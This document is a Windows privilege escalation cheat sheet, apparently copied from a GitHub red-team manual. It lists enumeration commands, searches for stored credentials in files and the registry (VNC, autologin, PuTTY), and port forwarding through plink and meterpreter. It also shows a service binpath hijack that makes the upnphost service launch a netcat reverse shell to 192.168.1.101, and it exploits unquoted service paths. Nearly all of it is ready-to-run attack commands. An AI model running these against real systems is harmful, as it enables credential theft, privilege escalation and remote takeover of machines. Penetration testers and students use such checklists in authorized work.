 # Windows Privilege Escalation

*Common ways to look for and perform privilege escalation in Windows systems*
*Source: https://github.com/ShadowWolf7027/RedFieldManual/blob/master/Checklists/Windows_Privilege_Escalation.md*

## Basic Enumeration/Kernel

### Basics
```
systeminfo
hostname
```
### Who am I?
```
whoami /all
echo %username%
```
### What users/localgroups are on the machine?
```
net users
net localgroups
```
### More info about a specific user. Check if user has privileges.
```
net user user1
```
### View Domain Groups
```
net group /domain
```
### View Members of Domain Group
```
net group /domain <Group Name>
```

### Firewall
```
netsh firewall show state
netsh firewall show config
```

### Network
```
ipconfig /all
route print
arp -A
```

### How well patched is the system?
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

## Passwords
### Search
```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
```
#### Find all those strings in config files.
```
dir /s *pass* == *cred* == *vnc* == *.config*
```
#### Find all passwords in all files.
```
findstr /spin "password" *.*
findstr /spin "password" *.*
```

### In files
*Common files (might be base-64 encoded)*
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
```

### In registry

#### VNC
```
reg query "HKCU\Software\ORL\WinVNC3\Password"
```
#### Windows autologin
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
#### SNMP Paramters
```
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```
#### Putty
```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```
#### Search for password in registry
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Inside service
Find any service that is running on the machine, that you can't access from the outside (compare with nmap scan)
```
netstat -ano
```
Look for **LISTENING/LISTEN**. If you find something, try port forwarding to access it.
```cmd
# Port forward using plink
plink.exe -l {USER} -pw {PASSWORD} 192.168.0.101 -R 8080:127.0.0.1:8080

# Port forward using meterpreter
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```
### IP Addresses
**0.0.0.0** = All interfaces (World accessible)
**127.0.0.1** = Only local connections allowed (from the machine itself)
**192.168.X.X** = Anyone in the network can connect

## Scheduled Tasks
AKA Cronjobs in Linux
```
schtasks /query /fo LIST /v
```

## Change UPNp binary
```cmd
sc config upnphost binpath= "C:\Inetpub\nc.exe 192.168.1.101 6666 -e c:\Windows\system32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
```

## Weak Service Permissions
### WMIC
```cmd
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
```
### sc.exe
```cmd
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt

FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt

FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
```cmd
cacls "C:\path\to\file.exe"
```
#### Weaknesses
```
C:\path\to\file.exe 
BUILTIN\Users:F
BUILTIN\Power Users:C 
BUILTIN\Administrators:F 
NT AUTHORITY\SYSTEM:F
```
(F) and (C) rights indicate that group/user has write access

#### Restarting a service
```
wmic service NAMEOFSERVICE call startservice

or

net stop [service name] && net start [service name]
```

## Unquoted Service Paths
### Discover vulnerable services

#### Using WMIC
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
#### Using sc
```
sc query
sc qc service name
```
### Look for Binary_path_name and see if it is unquoted.

*If there's a space in the path without quotes, it's vulnerable*

#### Exploit
If binary is:
```
c:\Program Files\something\winamp.exe
```
Replace with:
```
c:\exploit.exe
```

## Vulnerable Drivers
```
# List all drivers
driverquery
```
